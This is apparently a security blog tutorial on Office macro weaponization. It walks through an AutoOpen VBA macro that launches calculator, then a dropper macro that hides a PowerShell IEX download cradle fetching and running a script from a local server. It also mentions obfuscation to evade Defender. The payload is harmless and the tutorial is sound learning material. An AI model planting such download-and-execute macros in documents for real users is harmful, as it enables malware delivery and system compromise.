





## Introduction

September 2025, APT28 also known as Fancy Bear (Russia) used a VBA macro as the initial execution mechanism during the campaign [Operation Phantom Net Voxel](https://cybersecuritynews.com/new-apt28-attack-via-signal-messenger/). In August 2025, Muddy Water (Iran) sent phishing emails containing malicious Microsoft Word documents that prompted recipients to "Enable Content" during the campaign [Phoenix Backdoor Campaign](https://www.darkreading.com/cyberattacks-data-breaches/muddywater-100-gov-entites-mea-phoenix-backdoor). And I can go on forever. My point is that, while Microsoft has implemented __Mark of the Web (MoTW)__ to block macros from the internet, attackers still bypass this through techniques like ISO/ZIP smuggling.    
In my last posts on [Dll Injection](https://0xsolitar.github.io/posts/dll-injection/) and [Process Hollowing](https://0xsolitar.github.io/posts/process-hollowing/), we assumed code was already running. Today we build the delivery mechanism that makes that injection possible.

## The Execution Flow

The attack start with the attacker sending a malicious Word or Excel documents, often via email. It may look benign or contain social engineering prompts like "__Enable macros to view content__". When the document is opened, Microsoft Word or Excel starts the VBA engine to handle any macros embedded in the file. The user might see a prompt like "Macro have been disabled" unless they enable it. Modern Windows versions tags files from the internet with an __NTFS Alternate Data Stream (Zone.Identifier)__, this is why attackers often use tricks to get the users to enable macros.



Most macro office attacks rely on a macro that runs automatically, like `AutoOpen()` to ensure the attack begins as soon as the document is opened, without the user doing anything else. The macro often `Shell()`, `WScript.Shell`, or `CreateObject("WScript.Shell")` to execute system commands and escape the Office sandbox and interacts with the operating system. `cmd.exe` or Powershell is invoked to run more complex payloads. This may be a Powershell one-liner that establishes a connection to the attacker's server to download additional malware or runs encoded commands to evade detection



## Building the Macro

To start, open a new office documents (docs or excel) and go in the developer tab. If it's hidden, which is the case by default in later version of office, then go __File->Options->Customize Ribbon and check the Developer checkbox__



Now click on Macro, and paste the code in the image. For this example we'll be using a simple script that launch calculator

:::important
__vbNormalFocus__ here means that the application window will appears in its usual size (not minimized or maximized) and become the active window on top of the other windows. What an attacker would use is __vbHide__ which makes the program run in the background, now window is shown and the user doesn't interact with it directly 
:::



Save the document as __A macro-enabled document__ with the __.docm__ extension and quit. When you reopen the document, the VBA script will execute and open calculator.



As you can see, the macro was able to launch a process (in our case calculator). In real world scenario, macro often act as a __dropper__, meaning they don't contain the full malware themselves. Instead, they connect to a remote server, download payloads and execute them silently.  
Let's build one. For this next example we're going to need a server to host our payload. We'll be using a powershell script that launch calculator. To start, create a powershell file with the __.ps1__ extension and copy and paste the line below:

```powershell
Start-Process calc.exe
```

Save the file and open cmd in the same directory. Now launch a python server 

```sh
python -m http.server 9000
```

The macro is the following:

```vba
Sub AutoOpen()
    Dim ps As String
    ps = "powershell.exe -Command IEX(New-Object Net.WebClient).DownloadString('http://localhost:9000/payload.ps1')"
    Shell ps, vbHide
End Sub
```

Now if we open the document and execute the macro, Windows defender will catch it. The reason is the pattern is extremely common in malware, and Windows defender (like most antivirus) considers the macro + download + execution chain suspicious and blocks it proactively. That's the reason why most attackers uses obfuscation to evades detections. I highly suggest reading [this](https://blog.sekoia.io/apt28-operation-phantom-net-voxel/#h-infection-vba-analysis) article from __sekoia__ for a full breakdown on the infection chain used by __APT28__ aka __Fancy Bear__.

## Conclusion
This post is a fundamental of office weaponization. In a future post, we'll look at how to bypass Windows Defender using VBA obfuscation and establish a persistent reverse shell. Stay safe and until next time :).
